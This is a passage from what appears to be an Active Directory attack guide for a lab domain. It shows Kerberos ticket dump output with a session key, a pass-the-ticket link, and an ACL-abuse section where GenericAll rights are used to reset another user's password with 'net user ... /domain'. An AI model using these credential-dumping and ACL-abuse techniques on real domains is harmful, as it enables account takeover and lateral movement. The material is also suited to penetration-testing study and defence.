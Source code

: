 	* Username : ODIN$
	* Domain   : VALHALLA.LOCAL
	* Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket
	[00000000]
	Start/End/MaxRenew: 25/08/2021 19:05:53 ; 26/08/2021 05:05:53 ; 01/09/2021 19:05:53
	Service Name (02) : krbtgt ; VALHALLA.LOCAL ; @ VALHALLA.LOCAL
	Target Name  (--) : @ VALHALLA.LOCAL
	Client Name  (01) : ODIN$ ; @ VALHALLA.LOCAL
	Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
	Session Key       : 0x00000001 - des_cbc_crc
	0c2bd7c1b7134a68478aa67e76cda120e73688273c8745388fe89cb82823b586
	Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]


Rest

https://github.com/vanhohen/ADNinja/blob/main/Guideline.md#pass-the-ticket

# Abusing ACL

## GenericALL-User

We will check bloodhound and user has GenericAll rights for another user

![image](https://user-images.githubusercontent.com/13157446/129450372-671b8874-0d30-48fd-8163-8c003cc7fdb2.png)

dontmindme user can change iwouldmind users password without knowing prior password

![image](https://user-images.githubusercontent.com/13157446/129450621-c28f34d9-8f4a-4bc8-8c18-efb44e977cb9.png)

Fail with another user

	PS C:\Users\testuser\Desktop\sharphound> whoami
	valhalla\testuser
	PS C:\Users\testuser\Desktop\sharphound> net user iwouldmind NewPass123! /domain
	İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

	5 sistem hatası oldu.

	Erişim engellendi.

	PS C:\Users\testuser\Desktop\sharphound>


## GenericALL-Group

Groups for dontmindme user 

	PS C:\Users\testuser\Desktop\sharphound> net user dontmindme /domain
	İstek, valhalla.local etki alanının denetleyicisinde işlenecek.
